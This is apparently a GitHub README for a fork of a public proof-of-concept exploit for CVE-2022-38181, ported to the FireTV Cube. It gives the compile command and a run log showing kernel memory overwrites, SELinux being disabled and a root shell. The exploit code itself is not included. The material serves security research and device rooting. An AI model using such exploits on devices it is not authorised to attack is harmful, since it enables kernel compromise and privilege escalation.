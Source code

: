 ## Exploit for CVE-2022-38181 to run on FireTV 3rd gen Cube

This is a fork of security researcher Man Yue Mo's <a href="https://github.com/github/securitylab/tree/main/SecurityExploits/Android/Mali/CVE_2022_38181">Pixel 6 POC</a> for CVE_2022_38181.  Read his detailed write-up of the vulnerability <a href="https://github.blog/2023-01-23-pwning-the-all-google-phone-with-a-non-google-bug/">here</a>.  Changes have been made to account for FireOS's 32bit userspace. The POC exploits a bug in the ARM Mali kernel driver to gain arbitrary kernel code execution, which is then used to disable SELinux and gain root.  

I used the following command to compile with clang in ndk-21:
```
android-ndk-r21d/toolchains/llvm/prebuilt/linux-x86_64/bin/armv7a-linux-androideabi30-clang -DSHELL mali_shrinker_mmap32.c -o gazelle_shrinker
```
The exploit should be run 30-90sec after the Cube boots for greatest reliability.
```
gazelle:/ $ /data/local/tmp/gazelle_shrinker
fingerprint: Amazon/gazelle/gazelle:9/PS7613.3701N/0025401652480:user/amz-p,release-keys
failed, retry.
failed, retry.
region freed 47
alias gpu va 100c83000
read 0
cleanup flush region
release_mem_pool
jit_freed
jit_free commit: 6 0
Found freed_idx 6
Found pgd 23, 100d30000
overwrite addr : 104100558 558
overwrite addr : 104300558 558
overwrite addr : 10410082c 82c
overwrite addr : 10430082c 82c
result 50
gazelle:/ # 
```
